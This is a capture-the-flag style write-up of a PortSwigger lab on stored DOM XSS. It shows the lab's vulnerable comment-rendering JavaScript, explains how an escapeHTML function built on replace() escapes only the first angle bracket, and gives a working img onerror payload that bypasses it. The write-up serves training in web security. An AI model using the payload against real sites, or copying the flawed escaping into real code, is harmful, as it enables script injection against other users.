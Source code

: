 # Stored DOM XSS

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored), you'll learn: Stored DOM XSS! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab demonstrates a stored DOM vulnerability in the blog comment functionality. To solve this lab, exploit this vulnerability to call the `alert()` function.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-13/images/Pasted%20image%2020221230071253.png)

**In the home page, we can view one of those blogs:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-13/images/Pasted%20image%2020221230071319.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-13/images/Pasted%20image%2020221230071327.png)

And we can leave some comments.

**View source page:**
```html
<h1>Comments</h1>
<span id='user-comments'>
<script src='resources/js/loadCommentsWithVulnerableEscapeHtml.js'></script>
<script>loadComments('/post/comment')</script>
</span>
```

**`resources/js/loadCommentsWithVulnerableEscapeHtml.js`:**
```js
function loadComments(postCommentPath) {
    let xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            let comments = JSON.parse(this.responseText);
            displayComments(comments);
        }
    };
    xhr.open("GET", postCommentPath + window.location.search);
    xhr.send();

    function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }

    function displayComments(comments) {
        let userComments = document.getElementById("user-comments");

        for (let i = 0; i < comments.length; ++i)
        {
            comment = comments[i];
            let commentSection = document.createElement("section");
            commentSection.setAttribute("class", "comment");

            let firstPElement = document.createElement("p");

            let avatarImgElement = document.createElement("img");
            avatarImgElement.setAttribute("class", "avatar");
            avatarImgElement.setAttribute("src", comment.avatar ? escapeHTML(comment.avatar) : "/resources/images/avatarDefault.svg");

            if (comment.author) {
                if (comment.website) {
                    let websiteElement = document.createElement("a");
                    websiteElement.setAttribute("id", "author");
                    websiteElement.setAttribute("href", comment.website);
                    firstPElement.appendChild(websiteElement)
                }

                let newInnerHtml = firstPElement.innerHTML + escapeHTML(comment.author)
                firstPElement.innerHTML = newInnerHtml
            }

            if (comment.date) {
                let dateObj = new Date(comment.date)
                let month = '' + (dateObj.getMonth() + 1);
                let day = '' + dateObj.getDate();
                let year = dateObj.getFullYear();

                if (month.length < 2)
                    month = '0' + month;
                if (day.length < 2)
                    day = '0' + day;

                dateStr = [day, month, year].join('-');

                let newInnerHtml = firstPElement.innerHTML + " | " + dateStr
                firstPElement.innerHTML = newInnerHtml
            }

            firstPElement.appendChild(avatarImgElement);

            commentSection.appendChild(firstPElement);

            if (comment.body) {
                let commentBodyPElement = document.createElement("p");
                commentBodyPElement.innerHTML = escapeHTML(comment.body);

                commentSection.appendChild(commentBodyPElement);
            }
            commentSection.appendChild(document.createElement("p"));

            userComments.appendChild(commentSection);
        }
    }
};
```

**In line 5, the `comments` variable is parsing an JSON object:**
```js
let comments = JSON.parse(this.responseText);
```

**Then in line 12-14, we can see that it's escaping HTML code:**
```js
function escapeHTML(html) {
    return html.replace('<', '&lt;').replace('>', '&gt;');
}
```

**The `<` and `>` will be replaced as `&lt;` and `&gt;`.**

We also see that the JavaScript file uses `innerHTML` in `comment.author`, `comment.body`, which is a sink (Dangerous function).

```js
let newInnerHtml = firstPElement.innerHTML + escapeHTML(comment.author)
```

Armed with above information, we can start to bypass the `<>` HTML encoding.

According to [W3School](https://www.w3schools.com/jsref/jsref_replace.asp), **the `replace()` method only replace the first instance.**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-13/images/Pasted%20image%2020221230073253.png)

Which means if we add more than 1 `<` or `>`, it'll be ignored.

**Let's craft the XSS payload:**
```
<><img src=errorpls onerror=alert(document.domain)>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-13/images/Pasted%20image%2020221230073659.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-13/images/Pasted%20image%2020221230073706.png)

Nice!